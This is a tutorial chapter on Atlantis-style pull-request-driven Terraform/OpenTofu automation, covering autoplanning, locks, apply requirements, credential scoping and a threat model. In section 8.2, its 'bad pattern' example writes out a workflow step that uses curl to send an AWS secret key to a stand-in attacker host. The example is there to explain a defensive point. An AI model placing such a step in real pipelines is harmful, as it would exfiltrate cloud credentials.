




# Part 014 — PR-Driven IaC Automation: Atlantis-Style Workflow

PR-driven IaC automation turns the pull request into an infrastructure control surface.

The pull request is no longer only a code review artifact.

It becomes the place where engineers:

- request infrastructure change,
- see the execution plan,
- discuss risk,
- trigger apply,
- observe success or failure,
- and preserve an audit trail.

Atlantis is the canonical open-source example of this pattern. It is a self-hosted application that listens for pull request webhooks and runs Terraform operations such as plan, apply, and import remotely. Its documentation describes workflows where `atlantis plan` runs plans on pull request branches, autoplanning detects changed Terraform projects on PR events, and locks protect a directory/workspace while a plan is active.

But this part is not a tool tutorial.

This part is about the pattern behind the tool.

We will use Atlantis-style automation as a concrete implementation model for the apply pipeline concepts from Part 013.

---

## 1. The Problem PR-Driven Automation Solves

Without PR-driven automation, infrastructure teams often fall into one of two bad patterns.

### 1.1 Local Apply by Engineers

```text
Developer laptop -> terraform apply -> production cloud
```

Problems:

- credentials live on laptops,
- local tool versions differ,
- plans are not consistently reviewed,
- apply logs are not durable,
- state locking depends on individual discipline,
- approval is social, not enforced,
- audit trail is incomplete,
- and production mutation is hard to reproduce.

### 1.2 CI Apply Without Review Context

```text
Merge -> CI job -> terraform apply
```

Problems:

- reviewers may not see a useful plan,
- CI logs become the only interface,
- plan/apply mismatch is hidden,
- failures appear after merge,
- engineers lose interactive control,
- and the feedback loop is slow.

PR-driven automation improves the loop:

```text
PR -> plan comment -> review -> apply command -> result comment
```

The pull request becomes a shared control room.



This is powerful because it meets engineers where they already work.

But it is dangerous if treated casually.

A PR comment can become a production mutation trigger.

That means the comment interface is part of the control plane.

---

## 2. The Atlantis-Style Control Model

Atlantis-style automation has several core ideas.

| Concept | Meaning |
|---|---|
| Webhook listener | Receives pull request events from Git provider. |
| Project detection | Determines which Terraform/OpenTofu projects changed. |
| Plan command | Runs plan remotely and posts result to PR. |
| Apply command | Runs apply remotely after review/authorization. |
| Locking | Prevents conflicting plans/applies for same directory/workspace. |
| Repo config | Defines projects, workflows, autoplan behavior, and policy. |
| Server config | Defines global security and allowed repo behavior. |
| PR comments | User-facing command and feedback channel. |

The model is simple on purpose.



The elegance is also the risk.

If webhook validation, command authorization, repo configuration, and credential scoping are weak, the PR becomes an attack surface.

---

## 3. PR Comments as an API

A comment such as:

```text
atlantis apply
```

looks like a chat command.

Architecturally, it is an API call.

It has:

- caller identity,
- target resource,
- operation,
- authorization rules,
- preconditions,
- side effects,
- audit output,
- and failure modes.

So design it like an API.

### 3.1 Command Contract

A safe command contract should include:

```yaml
command:
  operation: apply
  actor: alice@example.com
  repository: acme/infra-live
  pull_request: 4821
  commit_sha: 8fa23c7d...
  project: network-prod-ap-southeast-1
  workspace: prod
  target_state: s3://iac-state/prod/network.tfstate
  requested_at: 2026-07-03T09:45:12Z
```

The automation should validate:

- actor has permission,
- PR is in allowed state,
- target project is known,
- latest plan exists,
- plan is not stale,
- required approvals exist,
- required checks passed,
- no conflicting lock exists,
- repo config is trusted,
- server policy allows the workflow,
- and the command targets exactly one intended project unless explicitly scoped.

### 3.2 Ambiguous Commands

Ambiguous command:

```text
atlantis apply
```

In a multi-project PR, this may apply more than the actor intended.

Prefer explicit commands for production:

```text
atlantis apply -p network-prod-ap-southeast-1
```

or stricter platform wrappers:

```text
/apply prod/network/ap-southeast-1/vpc
```

The interface should make dangerous actions explicit.

---

## 4. Autoplanning

Autoplanning means the automation detects changes and runs plan automatically when a pull request is opened or updated.

This is excellent for feedback.

It is also a source of false confidence if detection is incomplete.

### 4.1 Affected Project Detection

Naive detection:

```text
A file changed under env/prod/network -> run plan for env/prod/network
```

This misses indirect dependencies:

- module changed,
- shared variable changed,
- provider lock changed,
- policy changed,
- generated file changed,
- Terragrunt parent config changed,
- common locals changed,
- dependency output changed,
- environment matrix changed.

A production autoplanner needs a dependency-aware resolver.



### 4.2 Autoplan Rules

Example:

```yaml
autoplan:
  enabled: true
  when_modified:
    - "envs/prod/network/**/*.tf"
    - "modules/vpc/**/*.tf"
    - "policies/iac/**/*.rego"
    - ".terraform.lock.hcl"
```

This is better than directory-only detection.

But as systems grow, static `when_modified` lists become hard to maintain.

At scale, use a generated project graph.

### 4.3 False Negative vs False Positive

Autoplanning can fail in two ways.

| Failure | Meaning | Risk |
|---|---|---|
| False negative | Affected project not planned. | Dangerous; hidden impact. |
| False positive | Unaffected project planned. | Annoying; slower feedback. |

For production infra, prefer false positives over false negatives.

A slow plan is better than an invisible blast radius.

---

## 5. Project Configuration

Atlantis-style tools usually define projects.

A project maps to a Terraform/OpenTofu execution unit.

A good project boundary should correspond to:

- one state file,
- one environment target,
- one ownership boundary,
- one blast-radius boundary,
- one locking unit,
- and one review context.

Example conceptual config:

```yaml
version: 3
projects:
  - name: network-prod-ap-southeast-1
    dir: envs/prod/ap-southeast-1/network
    workspace: default
    autoplan:
      enabled: true
      when_modified:
        - "*.tf"
        - "../../../modules/vpc/**/*.tf"
        - "../../../policies/**/*.rego"
    apply_requirements:
      - approved
      - mergeable
      - undiverged
    workflow: prod-opentofu

workflows:
  prod-opentofu:
    plan:
      steps:
        - init
        - plan
    apply:
      steps:
        - apply
```

This is intentionally simplified.

The real platform should add policy checks, cost summaries, identity constraints, and evidence export.

### 5.1 Project Boundary Smells

Bad signs:

- one project manages unrelated resources,
- one state file spans many teams,
- one PR applies dozens of unrelated projects,
- project names do not encode environment,
- workspace names hide production targets,
- multiple projects mutate the same external resource,
- modules and live config are mixed casually,
- production and dev use identical workflow requirements.

Good project names are boring and explicit:

```text
network-prod-ap-southeast-1
k8s-platform-stage-eu-west-1
orders-db-prod-ap-southeast-1
identity-shared-prod-global
```

Boring names reduce operational ambiguity.

---

## 6. Apply Requirements

Atlantis supports the idea of apply requirements such as approval/mergeability/undiverged state depending on configuration and VCS integration.

The general pattern is broader:

> Apply should require PR state to satisfy policy before mutation.

Common requirements:

| Requirement | Meaning |
|---|---|
| approved | Required reviewers approved the PR. |
| mergeable | PR has no merge conflict and satisfies branch rules. |
| undiverged | PR branch is up to date with base branch. |
| checks_passed | CI checks are green. |
| plan_current | Latest plan matches current commit. |
| policy_passed | Policy gate allowed the plan. |
| no_freeze | Target environment is not frozen. |
| no_material_drift | Drift does not invalidate plan. |
| explicit_project | Production apply must name project. |

A mature apply gate might look like:

```yaml
apply_requirements:
  dev:
    - plan_current
    - policy_passed
  stage:
    - approved
    - mergeable
    - plan_current
    - policy_passed
  prod:
    - approved_by_codeowners
    - security_approval_if_network_or_iam
    - mergeable
    - undiverged
    - checks_passed
    - plan_current
    - policy_passed
    - no_freeze
    - explicit_project
```

Do not treat all environments equally.

Equal process across unequal risk creates either unnecessary friction in dev or insufficient control in prod.

---

## 7. Locking in PR Automation

Atlantis locks a directory and Terraform workspace when a plan is run, preventing another PR from planning the same directory/workspace until the lock is cleared by merge/close/manual deletion depending on workflow.

The general principle:

> A plan creates an intent to mutate a state boundary. Conflicting intents must not proceed independently.

### 7.1 What the Lock Protects

The PR automation lock protects against this scenario:

1. PR A plans stack X.
2. PR B plans stack X.
3. PR A applies.
4. PR B applies an outdated assumption.

The lock forces serialization.

### 7.2 What the Lock Does Not Protect

It may not protect:

- semantic dependencies across separate states,
- shared external resources,
- cloud quota conflicts,
- dependency output changes,
- provider rate limits,
- manual console changes,
- production freeze windows,
- or state corruption outside the automation tool.

Therefore, combine Atlantis-style locking with:

- backend state locking,
- semantic locks,
- drift checks,
- dependency-aware planning,
- and policy gates.

### 7.3 Lock UX

When a lock blocks a PR, the comment should say:

```text
Cannot plan network-prod-ap-southeast-1.
This project is locked by PR #4817.
Lock holder: alice@example.com
Created: 2026-07-03T09:12:04Z
Reason: active plan awaiting apply or merge
Next action: review/merge/close PR #4817 or request unlock via platform runbook.
```

Do not make engineers guess.

A hidden lock becomes tribal knowledge.

---

## 8. Server-Side Trust Boundary

The automation server is privileged.

It receives webhooks, reads repository content, writes PR comments, and may run infrastructure mutations.

Treat it as a production system.

### 8.1 Server Responsibilities

The server should enforce:

- webhook signature validation,
- repository allowlist,
- branch restrictions,
- command authorization,
- project selection rules,
- workflow restrictions,
- secret handling,
- runner isolation,
- and audit logging.

### 8.2 Repo Config Is Not Fully Trusted

This is subtle.

If a PR can change the automation config and the automation blindly executes that changed config with production credentials, an attacker can change the workflow to exfiltrate secrets.

For production:

- restrict which repo config keys are allowed,
- keep sensitive workflow definitions server-side,
- require approval before config changes affect execution,
- disallow arbitrary shell steps from untrusted PRs,
- pin allowed tools,
- and separate plan permissions from apply permissions.

Bad pattern:

```yaml
workflow:
  plan:
    steps:
      - run: curl attacker.example.com/$AWS_SECRET_ACCESS_KEY
```

If the server executes this from a PR with credentials, the platform is compromised.

A safe model:

```text
Repo config may declare projects.
Server config owns privileged workflows.
Policy decides which workflow a project may use.
```

---

## 9. Credential Model

PR automation is attractive because developers do not need cloud credentials locally.

That is a strength.

But now the automation server has credentials.

The credential model must be deliberate.

### 9.1 Bad Credential Model

```text
Atlantis server has one admin cloud key.
All repos use it.
All projects use it.
Plan and apply use it.
It never expires.
```

This is common.

It is also a major platform risk.

### 9.2 Better Credential Model

```text
PR plan -> read-scoped identity per environment/account
PR apply -> mutation-scoped identity per environment/account/stack
Credentials -> short-lived via workload identity
Server -> no static production admin key
```

Example identity mapping:

```yaml
identity_profiles:
  network-prod-ap-southeast-1:
    plan_role: arn:aws:iam::123456789012:role/iac-plan-prod-network
    apply_role: arn:aws:iam::123456789012:role/iac-apply-prod-network
    session_duration_minutes: 30
  apps-dev-ap-southeast-1:
    plan_role: arn:aws:iam::222222222222:role/iac-plan-dev-apps
    apply_role: arn:aws:iam::222222222222:role/iac-apply-dev-apps
    session_duration_minutes: 60
```

### 9.3 Credential Scope by Command

| Command | Credential Scope |
|---|---|
| plan on PR | Read + limited data source access. |
| apply on dev | Mutate dev stack resources only. |
| apply on prod | Mutate approved prod stack resources only. |
| import | Special controlled scope. |
| state manipulation | Highly restricted break-glass scope. |

Do not let `plan` become hidden `apply` through provisioners or external data sources.

Review any workflow step that can run arbitrary commands.

---

## 10. Plan Comment Design

A raw Terraform plan can be overwhelming.

The PR comment should be designed for review.

A good plan comment has layers.

### 10.1 Summary First

```text
Project: network-prod-ap-southeast-1
Environment: prod
Plan: 2 create, 4 update, 0 replace, 0 delete
Risk: medium
Policy: allowed
Cost delta: +$42.80/month
Plan age: 0 minutes
Apply command: atlantis apply -p network-prod-ap-southeast-1
```

### 10.2 Highlight Risk

```text
Risk highlights:
- Security group rule added: egress tcp/443 to 0.0.0.0/0
- Load balancer listener certificate updated
- No resource deletes
- No IAM privilege expansion
- No public ingress added
```

### 10.3 Link to Full Evidence

```text
Artifacts:
- Normalized plan JSON
- Full redacted plan log
- Policy decision
- Cost estimate
- Dependency graph
```

The PR comment is not just output.

It is a reviewer interface.

Make the safe path obvious and the dangerous path loud.

---

## 11. Apply Comment Design

The apply result comment should answer:

- What was applied?
- Who requested it?
- Which identity executed it?
- What changed?
- Did verification pass?
- Where is the evidence?
- What should happen next?

Example:

```text
Apply succeeded: network-prod-ap-southeast-1
Requested by: alice@example.com
Commit: 8fa23c7d
Runner: iac-runner-prod-17
Identity: iac-apply-prod-network
Result: 2 created, 4 updated, 0 replaced, 0 deleted
State serial: 6421 -> 6422
Verification: passed
Evidence: apply-2026-07-03-prod-network-1427
Next: PR may be merged.
```

Failure comment:

```text
Apply failed after partial mutation: orders-db-stage
Requested by: bob@example.com
Commit: 9ab771e2
Result before failure: 1 resource created, 1 update failed
State serial: 314 -> 315
Failure class: provider_validation_after_mutation
Recovery runbook: partial-apply-stage-db
Next: do not retry until re-plan completes.
```

Never post only a stack trace.

---

## 12. Multi-Project Pull Requests

Multi-project PRs are common in monorepos.

They are also risky.

Example:

```text
PR changes:
- modules/vpc
- envs/dev/network
- envs/prod/network
- envs/stage/network
```

Autoplanning may produce many plans.

The workflow must decide:

- Can all projects be applied together?
- Must dev apply before stage?
- Must stage apply before prod?
- Can prod be applied from a PR that also changes dev?
- Are approvals per PR or per project?
- Does one failed project block all?

### 12.1 Project-Level Approval

For production, prefer project-level approval.

```yaml
approvals:
  network-dev-ap-southeast-1:
    required: team-owner
  network-stage-ap-southeast-1:
    required: team-owner
  network-prod-ap-southeast-1:
    required:
      - platform-owner
      - security-owner
```

One PR approval is too coarse when the PR affects multiple risk domains.

### 12.2 Apply Ordering

Example ordering:



This may be too heavy for small changes.

But for shared modules, it is often the right trade-off.

---

## 13. Atlantis with Terragrunt-Style Repos

Terragrunt-style repos introduce dependency graphs and parent config inheritance.

Atlantis-style project detection must account for:

- `terragrunt.hcl` changes,
- included parent configs,
- dependency blocks,
- module source changes,
- generated provider/backend config,
- stack-level ordering,
- and `run-all` risk.

A naive `dir` mapping may be insufficient.

Better pattern:

```text
changed files -> terragrunt graph resolver -> affected units -> ordered plan jobs -> explicit apply per unit or approved group
```

Avoid allowing a comment to run broad graph-wide apply casually:

```text
atlantis apply-all
```

For production, graph-wide apply should require:

- explicit project group,
- previewed affected unit list,
- dependency ordering,
- approval per critical unit,
- and concurrency limits.

---

## 14. Imports and State Operations

Atlantis-style tools often support import or custom commands.

These are powerful.

They are also dangerous.

### 14.1 Import

Import changes state without creating the remote object.

Risks:

- wrong resource imported,
- wrong address used,
- provider reads unexpected attributes,
- imported state exposes secrets,
- next plan wants to replace the resource,
- ownership boundary becomes unclear.

Import workflow should require:

1. import proposal,
2. resource identity proof,
3. owner approval,
4. import command,
5. post-import plan,
6. no unexpected destroy/replace,
7. evidence packet.

### 14.2 State Manipulation

Commands like state move, state remove, or force unlock should not be normal PR comments.

They should be restricted operational workflows.

State operations can permanently change how IaC understands reality.

Treat them as migrations of the control-plane database.

---

## 15. Policy Integration

Atlantis-style automation can integrate policy checks in the workflow.

The architectural question is:

> Where is policy evaluated, and can the user bypass it?

### 15.1 Policy Layers

| Layer | Example |
|---|---|
| Static config policy | Repo structure, required files, forbidden providers. |
| Plan policy | No public S3 bucket, no IAM wildcard, no unencrypted DB. |
| Approval policy | Prod network requires security owner. |
| Command policy | Only maintainers may apply prod. |
| Time policy | No prod changes during freeze. |
| Evidence policy | Apply cannot complete without stored artifacts. |

### 15.2 Policy Must Be Server-Enforced

If policy is implemented only as a repo-defined shell step, a PR can modify or bypass it.

For critical controls:

- policy bundle should be controlled by platform/security,
- workflow should fail closed,
- results should be stored as evidence,
- and apply should require the policy result for the same plan.

Example:

```yaml
policy_gate:
  source: platform-policy-bundle@sha256:7d91...
  input:
    - normalized_plan_json
    - pr_metadata
    - actor_metadata
    - environment_metadata
  failure_mode: fail_closed
```

---

## 16. Security Threat Model

A PR-driven IaC server has a meaningful threat surface.

### 16.1 Threats

| Threat | Example | Control |
|---|---|---|
| Forged webhook | Attacker triggers fake apply. | Verify webhook signatures. |
| Unauthorized command | Non-owner comments apply. | Check actor permissions. |
| Malicious PR config | PR changes workflow to leak secrets. | Server-side workflows, config allowlist. |
| Credential exfiltration | Plan step prints cloud keys. | Short-lived credentials, redaction, restricted steps. |
| Fork PR attack | External contributor gets plan with secrets. | No privileged credentials for forks. |
| Stale plan apply | Old plan applied after state changed. | Plan freshness and locks. |
| Lock abuse | PR holds lock indefinitely. | Lock timeout and runbook. |
| Server compromise | Attacker controls automation host. | Hardening, isolation, least privilege, audit. |
| Broad cloud role | One role mutates all infra. | Per-stack roles and permission boundaries. |
| Policy bypass | User modifies policy step. | Server-enforced policy. |

### 16.2 Fork PR Rule

For public or semi-open repos:

> Never run privileged plan/apply workflows on untrusted fork code.

A safe fork workflow may:

- run formatting,
- static validation without secrets,
- module tests in sandbox,
- policy linting without cloud credentials.

It must not:

- assume production roles,
- access state backend credentials,
- run arbitrary scripts with secrets,
- or post sensitive plan output.

---

## 17. Operational Failure Modes

### 17.1 Autoplan Did Not Run

Symptoms:

- PR shows no plan.
- Engineer assumes no infra impact.

Causes:

- changed file not in `when_modified`,
- module reverse dependency missing,
- webhook failure,
- server outage,
- branch protection not requiring plan status.

Controls:

- required check for affected projects,
- dependency-aware detection,
- webhook monitoring,
- no-plan explanation comment,
- fail closed for unknown impact.

### 17.2 Plan Lock Stuck

Symptoms:

- another PR cannot plan/apply.

Causes:

- PR abandoned,
- apply failed,
- server crash,
- manual unlock forgotten,
- merge/close event missed.

Controls:

- visible lock owner,
- timeout policy,
- unlock runbook,
- audit unlock events,
- no automatic force unlock for prod without inspection.

### 17.3 Apply Command Accepted Too Broadly

Symptoms:

- multiple projects applied unexpectedly.

Causes:

- ambiguous `apply`,
- multi-project PR,
- weak command scoping,
- no project-level approval.

Controls:

- explicit project required for prod,
- preview affected project list,
- apply group policies,
- separate comments per project.

### 17.4 Policy Step Bypassed

Symptoms:

- plan violates policy but apply succeeds.

Causes:

- workflow modified in PR,
- policy failure ignored,
- policy result not bound to apply,
- server-side config too permissive.

Controls:

- server-side policy enforcement,
- fail-closed gates,
- evidence binding,
- protected config files.

---

## 18. Production Rollout Pattern

Do not introduce PR-driven apply to all production stacks at once.

Roll it out gradually.

### Phase 1: Read-Only Plan Automation

- Autoplan on PR.
- Post summaries.
- No apply from automation.
- Compare with existing manual workflow.
- Fix affected-project detection.

### Phase 2: Dev Apply

- Allow apply for dev stacks.
- Use short-lived dev credentials.
- Add lock visibility.
- Capture evidence.
- Measure failure modes.

### Phase 3: Stage Apply

- Add approval requirements.
- Add policy gates.
- Add verification.
- Add drift checks.
- Add project-level apply commands.

### Phase 4: Production Low-Risk Stacks

- Start with stateless or low-blast-radius resources.
- Require explicit project apply.
- Require CODEOWNER approval.
- Use short plan expiration.
- Store evidence outside CI.

### Phase 5: Production Critical Stacks

- Add semantic locks.
- Add break-glass path.
- Add destructive operation approvals.
- Add post-apply probes.
- Add on-call runbooks.

This rollout teaches the organization how the control loop behaves before it touches the most dangerous state.

---

## 19. Minimal Viable Atlantis-Style Platform

A minimal serious implementation includes:

```text
1. Webhook receiver with signature validation.
2. Repository allowlist.
3. Project config with explicit state boundaries.
4. Autoplan with dependency-aware file matching.
5. PR comments with risk summaries.
6. Apply requirements for approval and mergeability.
7. Locking per project/workspace.
8. Short-lived credentials per environment.
9. Server-side privileged workflow definitions.
10. Policy gate before apply.
11. Evidence storage outside PR comments.
12. Failure classification and runbooks.
```

Anything less may still be useful.

But do not call it production-grade for critical infrastructure.

---

## 20. Example End-to-End Workflow

### 20.1 Developer Opens PR

```text
PR #4821: Update production VPC NAT gateway tags and add private route output.
Changed files:
- envs/prod/ap-southeast-1/network/main.tf
- modules/vpc/outputs.tf
```

### 20.2 Autoplanner Detects Projects

```text
Affected projects:
- network-prod-ap-southeast-1
- network-stage-ap-southeast-1
- network-dev-ap-southeast-1
Reason:
- direct prod config change
- shared module output changed
```

### 20.3 Plan Comment

```text
Project: network-prod-ap-southeast-1
Plan: 0 create, 2 update, 0 replace, 0 delete
Risk: low
Policy: allowed
Highlights:
- Tag update on NAT gateway
- New output: private_route_table_ids
No security exposure change.
No IAM change.
No destroy.
Apply command:
  atlantis apply -p network-prod-ap-southeast-1
```

### 20.4 Reviewer Approval

Security does not need to approve because no network exposure or IAM change occurred.

Platform CODEOWNER approves.

### 20.5 Apply Command

```text
atlantis apply -p network-prod-ap-southeast-1
```

### 20.6 Apply Gate

The automation checks:

- actor is allowed,
- PR approved,
- plan current,
- commit unchanged,
- lock held,
- policy allowed,
- no freeze,
- plan age under 30 minutes.

### 20.7 Apply Result

```text
Apply succeeded.
Project: network-prod-ap-southeast-1
Result: 0 created, 2 updated, 0 replaced, 0 deleted
State serial: 6421 -> 6422
Verification: passed
Evidence: apply-2026-07-03-prod-network-1427
```

---

## 21. Comparison: Atlantis-Style vs Merge-Based GitOps

Atlantis-style Terraform automation and Kubernetes GitOps reconciliation solve different problems.

| Dimension | Atlantis-Style IaC PR Automation | Argo/Flux-Style GitOps |
|---|---|---|
| Primary target | Cloud/IaC resources. | Kubernetes desired state. |
| Trigger | PR events/comments. | Git commit observed by controller. |
| Execution | Central automation server/runner. | In-cluster or external controller. |
| Apply timing | Often before merge or explicitly by command. | Usually after merge to tracked branch. |
| Feedback | PR comments. | Controller status, events, dashboards. |
| State model | Terraform/OpenTofu state. | Kubernetes API/server state. |
| Locking | Directory/workspace/project locks + backend lock. | Reconciliation ownership and Kubernetes resource versioning. |
| Human control | Command-driven. | Commit-driven. |

Neither is universally superior.

For cloud infrastructure, PR-driven automation is often easier to reason about because Terraform/OpenTofu apply is not a continuous controller by default.

For Kubernetes application desired state, pull-based reconciliation is usually more natural.

A state-of-the-art platform often uses both:

```text
Terraform/OpenTofu PR automation -> creates cloud primitives and clusters
Argo CD / Flux -> reconciles workloads and cluster add-ons
Policy/secrets/evidence -> shared governance layer
```

---

## 22. Anti-Patterns

### Anti-Pattern 1: One Atlantis Server, One Admin Credential, All Repos

This creates a massive blast radius.

### Anti-Pattern 2: Allowing PRs to Define Privileged Workflows

This can turn IaC automation into a secret exfiltration engine.

### Anti-Pattern 3: Directory-Only Autoplanning in a Module-Heavy Repo

Module changes can affect many projects.

### Anti-Pattern 4: Applying All Projects by Default

A broad `apply` in a multi-project PR is too easy to misuse.

### Anti-Pattern 5: No Lock Runbook

Stuck locks are guaranteed eventually.

### Anti-Pattern 6: Treating PR Approval as Infrastructure Approval

Reviewers approve diffs.

Infrastructure approval must consider plan effect.

### Anti-Pattern 7: Posting Only Raw Plan Output

Raw plan output is useful but insufficient for risk review.

### Anti-Pattern 8: Running Privileged Workflows on Forks

Never do this.

---

## 23. Design Checklist

Use this checklist before adopting Atlantis-style automation.

### Repository and Projects

- [ ] Each project maps to one state boundary.
- [ ] Project names encode environment and target.
- [ ] Module reverse dependencies are known.
- [ ] Multi-project PR behavior is explicit.
- [ ] Production requires explicit project apply.

### Security

- [ ] Webhook signatures are verified.
- [ ] Repositories are allowlisted.
- [ ] Actor permissions are checked per command.
- [ ] Privileged workflows are server-controlled.
- [ ] Fork PRs cannot access privileged credentials.
- [ ] Credentials are short-lived and scoped.

### Planning

- [ ] Autoplanning covers direct and indirect changes.
- [ ] Plan output is summarized by risk.
- [ ] Full plan artifacts are stored securely.
- [ ] No-plan cases are explicit.
- [ ] Plan freshness is enforced.

### Applying

- [ ] Apply requires approval, mergeability, and current plan as appropriate.
- [ ] Production apply requires explicit project.
- [ ] Apply checks policy again.
- [ ] Locks are visible and auditable.
- [ ] Apply result includes verification and evidence.

### Operations

- [ ] Stuck lock runbook exists.
- [ ] Partial apply runbook exists.
- [ ] Server outage runbook exists.
- [ ] Credential rotation runbook exists.
- [ ] Audit trail is durable outside PR comments.

---

## 24. Practical Exercise

Design an Atlantis-style workflow for this repo:

```text
infra-live/
  modules/
    vpc/
    eks/
    rds/
  envs/
    dev/ap-southeast-1/network/
    stage/ap-southeast-1/network/
    prod/ap-southeast-1/network/
    prod/ap-southeast-1/orders-db/
  policies/
    iac/
```

Write:

1. The project list.
2. The state boundary for each project.
3. The `when_modified` rules.
4. The module reverse-dependency strategy.
5. The apply requirements for dev, stage, and prod.
6. The lock key format.
7. The identity mapping for plan and apply.
8. The policy gates.
9. The PR comment format.
10. The stuck-lock runbook.

Then test the design against this change:

```text
Changed files:
- modules/vpc/main.tf
- policies/iac/network.rego
```

Ask:

> Which projects must plan, who must approve, and which projects may apply automatically?

If the answer is not deterministic, the workflow is not ready.

---

## 25. Key Takeaways

- PR-driven IaC automation turns pull requests into an infrastructure control surface.
- Atlantis-style workflows are powerful because they make plan/apply visible where review happens.
- PR comments are API calls and must be authorized like API calls.
- Autoplanning must detect indirect impact, not only changed directories.
- Project boundaries should match state, ownership, blast radius, and lock boundaries.
- Locks prevent stale/conflicting PRs, but they do not replace semantic dependency modeling.
- Server-side workflow control is essential for production security.
- Short-lived scoped credentials are the difference between safe delegation and centralized admin risk.
- Multi-project PRs require project-level review and explicit apply behavior.
- Evidence must outlive PR comments and CI logs.

In the next part, we move to managed IaC runners and remote execution: Terraform Cloud/Enterprise-like workflows, Spacelift/env0/Scalr-style platforms, and self-hosted runner architecture.

---

## References

- Atlantis documentation — using Atlantis commands such as `atlantis plan` and `atlantis apply`.
- Atlantis documentation — autoplanning behavior for pull request changes.
- Atlantis documentation — locking behavior for directory and workspace.
- Atlantis GitHub repository — self-hosted application for Terraform pull request automation.
- OpenTofu documentation — plan/apply command behavior and saved plan mode.
- OpenGitOps principles — versioned desired state and automated reconciliation.
